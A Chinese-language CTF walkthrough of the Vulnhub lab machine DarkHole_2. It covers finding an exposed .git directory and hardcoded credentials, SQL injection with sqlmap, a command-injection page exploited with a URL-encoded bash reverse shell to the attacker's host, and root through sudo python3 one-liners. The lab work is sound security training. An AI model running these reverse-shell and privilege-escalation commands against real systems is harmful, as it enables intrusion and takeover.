 ```yaml
---
layout: post
title: "DarkHole_2 walkthrough"
date: 2021-10-09
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP                |
| ------------- | ----------------- |
| 本机（Win10） | `192.168.174.1`   |
| Kali          | `192.168.174.128` |
| DarkHole_2    | `192.168.174.139` |

### 扫描端口和版本信息

`nmap -A -p- 192.168.174.139`

```shell
┌──(root💀kali)-[~]
└─# nmap -A -p- 192.168.174.139
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-09 09:48 EDT
Nmap scan report for 192.168.174.139
Host is up (0.00082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 57:b1:f5:64:28:98:91:51:6d:70:76:6e:a5:52:43:5d (RSA)
|   256 cc:64:fd:7c:d8:5e:48:8a:28:98:91:b9:e4:1e:6d:a8 (ECDSA)
|_  256 9e:77:08:a4:52:9f:33:8d:96:19:ba:75:71:27:bd:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-git:
|   192.168.174.139:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: DarkHole V2
```

扫描发现目录存在 *.git* 源码泄露，我们使用 *githack* 脚本将源码下载下来，并且回溯到之前的版本，查看源码发现 *login.php* 文件存在账户名和密码：

```php
<?php
session_start();
require 'config/config.php';
if($_SERVER['REQUEST_METHOD'] == 'POST'){
    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
        $_SESSION['userid'] = 1;
        header("location:dashboard.php");
        die();
    }
}
?>
```

使用 `lush@admin.com:321`账户名和密码进行登录后跳转到 *dashboard.php* 页面，通过对 *dashboard.php* 文件进行简单代码审计发现存在sql注入漏洞：

```php
<?php
goto HjT6m;
eI0kG:
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $fname = mysqli_real_escape_string($connect, $_POST["fname"]);
    $email = mysqli_real_escape_string($connect, $_POST["email"]);
    $address = mysqli_real_escape_string($connect, $_POST["address"]);
    $mobile = $_POST["mobile"];
    $connect->query("update users set username='{$fname}',email='{$email}',address='{$address}',contact_number='{$mobile}' where id=1");
    header("location:dashboard.php");
    die;
}
.......
?>
```

### SQL注入

将请求包复制到 *post.txt* 文件里，并使用 *sqlmap* 工具进行注入，最后我们得到 ssh 表格里的登录账户信息：

```shell
[10:38:15] [INFO] retrieved: fool
Database: darkhole_2
Table: ssh
[1 entry]
+--------+------+
| user   | pass |
+--------+------+
| jehad  | fool |
+--------+------+
```

### Getshell

使用 `jehad:fool` 账户名和密码进行ssh登录后进行信息收集，注意到靶机存在3个日常账户：`jehad`、`lama`、`losy`。此外在查看进程时，发现 *losy* 用户开启本地 **9999** 端口：

```shell
root         872  0.0  0.0   6812  3060 ?        Ss   13:45   0:00 /usr/sbin/cron -f
root        1247  0.0  0.0   8480  3316 ?        S    13:46   0:00  \_ /usr/sbin/CRON -f
losy        1255  0.0  0.0   2608   536 ?        Ss   13:46   0:00      \_ /bin/sh -c  cd /opt/web && php -S localhost:999
losy        1257  0.0  0.4 193672 19104 ?        S    13:46   0:00          \_ php -S localhost:9999
```

定位到 */opt/web* 目录下，其中 *index.php* 文件内容中存在命令注入漏洞：

```php
<?php
	echo "Parameter GET['cmd']";
	if(isset($_GET['cmd'])){
		echo system($_GET['cmd']);
	}
?>
```

将反向shell 语句： `/bin/bash -c 'bash -i >& /dev/tcp/192.168.174.128/5566 0>&1'`经过URL编码后传递给 *cmd* 参数即可。

```shell
jehad@darkhole:~$ curl http://127.0.0.1:9999/?cmd=%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%37%34%2e%31%32%38%2f%35%35%36%36%20%30%3e%26%31%27
```

### 提权

Kali 监听 **5566** 端口后就会进行shell连接，访问用户主目录，查看 *user.txt* 文件得到第一个 flag：

```shell
losy@darkhole:~$ cat user.txt
cat user.txt
DarkHole{'This_is_the_life_man_better_than_a_cruise'}
```

在查看历史命令时，找到 *losy* 账户的密码是：`gang`。之后查看 *sudo* 权限时可运行 *python3* 命令。

```shell
losy@darkhole:~$ sudo -l
[sudo] password for losy:
Matching Defaults entries for losy on darkhole:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
```

接下来就是通过 *python3* 进行提权，执行命令：`sudo python3 -c 'import pty;pty.spawn("/bin/bash")'`即可，最后读取 *root.txt* 文件就得到了最后一个flag：

```shell
losy@darkhole:~$ sudo python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo python3 -c 'import pty;pty.spawn("/bin/bash")'
root@darkhole:/home/losy# id
id
uid=0(root) gid=0(root) groups=0(root)
root@darkhole:/home/losy# cd /root
cd /root
root@darkhole:~# ls
ls
root.txt  snap
root@darkhole:~# cat root.txt
cat root.txt
DarkHole{'Legend'}
```

### 总结

1. `ps auxf` 命令查看详细进程信息

2. python 提权可执行命令：

   ```shell
   sudo python3 -c 'import pty;pty.spawn("/bin/bash")'
   sudo python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
   ```

   
